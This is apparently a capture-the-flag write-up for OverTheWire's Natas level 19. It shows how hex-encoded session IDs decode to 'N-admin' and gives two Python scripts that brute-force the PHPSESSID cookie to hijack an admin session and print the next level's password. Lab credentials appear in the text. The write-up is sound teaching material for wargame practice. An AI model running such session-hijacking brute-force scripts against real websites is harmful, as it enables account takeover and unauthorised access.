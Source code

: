 # Over The Wire -- Natas 19

## Server URL
```
http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org
```

## Solution
We get a login box (Username and Password)

We don't get the source code but there is a mention in the page :
```
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
```

Hmmm, we could try to bruteforce the session id again. Not sure what are the implications of `session ids are no longer sequential`. 

Oh well, now i see, the session values looks like this `3536312d61`

We can't just bruteforce it like we did before.

What we can do tho is login repeatedly. This will generate a new random session id that has the valid structure.

We can then bruteforce using those session ids and retrieve an admin session.

By looking at the received session id we find that there is a suffix that change depending on the username. Since we want the admin session, we will use the `admin` username.

We get this suffix for the admin username : `d61646d696e`

The password doesn't seem to impact the session value.

The prefix always start with a `3` and finish with a `2`

We can do a bruteforce using those constraint.

Let's first try to use the cookie that we receive to see if we can get an authenticated session.

I've let it run for a while but I would only get regular user sessions.

Playing around with all the prefixes I received, I can confirm that every session id start with `3` and finish with `2`.

We received prefix of length `3`, `5` or `7` but they an be longer as long as they respect the `3?` pattern

For length `3` we get `3?2`

For length `5` we get `3?3?2`

For length `7` we get `3?3?3?2`

For length `9` we get `3?3?3?3?2`

and so on... Doesn't seems like there is an end to the amount of character we can have in the session id.

hmmm.. Bruteforcing this is kina long, Already bruteforced sessions ids with `7` or less character prefix with no success...

Running the search in parallel would definitely be more efficient..

Ok soo, I had it all wrong, still managed to find it via bruteforce (Had a problem in my combination generation).

I assumed that the session id was a unique identifier and didn't even try to interpret it as ascii bytes.

When converted, we get a string like :
```
XXX-admin
```

This is why the suffix stay the same when using a given username.
Should have realised that the repeating pattern `3?` is in fact numbers. The ascii representation of `0` is `30`, `2` is `32`, `9` is `39` ...

So here is the pure bruteforce approach (On encoded string)

```py
import requests
import itertools

url = "http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org"

admin_suffix = "d61646d696e"

count = 1
max_count = 5
while count < max_count:
    combinations = itertools.product(range(10), repeat=count)
    for combination in combinations:
        prefix = ""

        # Session start with 3? and repeat the same pattern
        for c in combination:
            prefix += f"3{c}"

        # Always finish with 2
        prefix += "2"
    
        session_id = f"{prefix}{admin_suffix}"
        r = requests.get(url, cookies={"PHPSESSID": session_id})

        invalid_session = "Please login" in r.text
        regular_user = "regular user" in r.text

        print(f"[{count}] Trying session id {session_id} -- {'Regular user' if regular_user else ''} {'Invalid session' if invalid_session else ''}")

        if not regular_user and not invalid_session:
            print("Found valid session id !")
            password = r.text.split('Password: ')[1].split("</pre>")[0]
            print(f"Natas20 password is {password}")
            exit(0)

    count += 1
```

And here is the approach when understanding the structure of the data :
```py
import requests
import binascii

url = "http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org"

max_id = 640
for i in range(max_id+1):   
    ascii_session_id = f"{i}-admin"
    session_id = binascii.hexlify(bytes(ascii_session_id, 'utf-8')).decode('utf-8')
    r = requests.get(url, cookies={"PHPSESSID": session_id})

    invalid_session = "Please login" in r.text
    regular_user = "regular user" in r.text

    print(f"Trying session id {ascii_session_id} -- {session_id} -- {'Regular user' if regular_user else ''} {'Invalid session' if invalid_session else ''}")

    if not regular_user and not invalid_session:
        print("Found valid session id !")
        print(r.text)
        password = r.text.split('Password: ')[1].split("</pre>")[0]
        print(f"Natas20 password is {password}")
        break
```

We get Natas20 password with both approach (The second approach is way faster)
```
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```